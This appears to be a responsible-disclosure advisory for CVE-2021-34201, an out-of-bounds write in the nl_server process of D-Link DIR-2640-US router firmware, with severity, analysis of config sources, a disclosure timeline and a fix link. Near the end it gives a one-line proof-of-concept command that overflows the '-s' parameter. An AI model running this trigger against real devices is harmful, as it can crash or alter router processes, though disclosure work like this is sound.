



# Out-of-bounds Write in DIR-2640-US Router

## Overview

- **CVE ID**: [CVE-2021-34201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34201)

- **Type**: [Out-of-bounds Write *- (787)*](http://cwe.mitre.org/data/definitions/787.html)

- **Vendor**: D-LINK (https://www.dlink.com/)

- **Products**: WiFi Router, such as DIR-2640-US.

- **Version**: Firmware (1.01B04)

- **Fix**:

  https://support.dlink.com/productinfo.aspx?m=DIR-2640-US

  https://support.dlink.com/resource/SECURITY_ADVISEMENTS/DIR-2640/REVA/DIR-2640_REVA_FIRMWARE_v1.11B02_BETA01_HOTFIX.zip

## Severity

**High** 7.1 CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:H

## Description

Multiple out-of-bounds vulnerabilities in some processes of D-Link AC2600(DIR-2640). Local ordinary users can overwrite the global variables in the .bss section, causing the process crashes or changes.

Ordinary users can run `nl_server`.

```shell
admin@dlinkrouter:~$ ls -l ./usr/bin/nl_server 
-rwxr-xr-x    1     18616 May 23  2021 ./usr/bin/nl_server
```

`nl_server`

```shell
admin@dlinkrouter:~$ ps
nl_server -i br0 -s dlinkrouter -s dlinkrouter3485 -s dlinkrouter.local -s dlinkrouter3485.local &
```

The decompiled code is as follows, the process does not limit the length of parameters entered by the user.



Is this parameter controllable externally?



```shell
admin@dlinkrouter:~$ cat /tmp/hosts
192.168.0.1  dlinkrouter
192.168.0.1  dlinkrouter3458
192.168.0.1  dlinkrouter.local
192.168.0.1  dlinkrouter3458.local
127.0.0.1 localhost
```

How is the variable `v4` obtained?



v4 = `WRSConfigGet()`, `WRSconfigGet` (`libwrscfg.so`)  =  `nvram_safe_get()`. The function is used to obtain the configuration information of the firmware. Further research we found that the configuration information is stored in the configuration file of the RT2860 wireless network card.

```shell
./etc_ro/Wireless/RT2860AP/RT2860_default_vlan-factory:393:lan0_management_link=dlinkrouter
./etc_ro/Wireless/RT2860AP/RT2860_default_vlan:416:lan0_management_link=dlinkrouter
```

[CVE-2021-34203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34203)  brought good news

> Is this parameter controllable externally?

## How to Reproduce (PoC)

```shell
nl_server -s aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbb
> 128
```

## Disclosure Timeline

- 8-Feb-2021 Discoverd the vulnerability
- 9-Feb-2021 Responsibly disclosed vulnerability to vendor
- 10-Feb-2021 D-Link PSIRT would raise to R&D
- 31-Mar-2021 D-Link R&D was investigating the report
- 2-Jun-2021 Requested for CVE-ID assignment
- 10-Jun-2021 CVE-ID Assigned
- 13-Jun-2021 Notified CVE about a publication
- 22-Jun-2021 Fixed
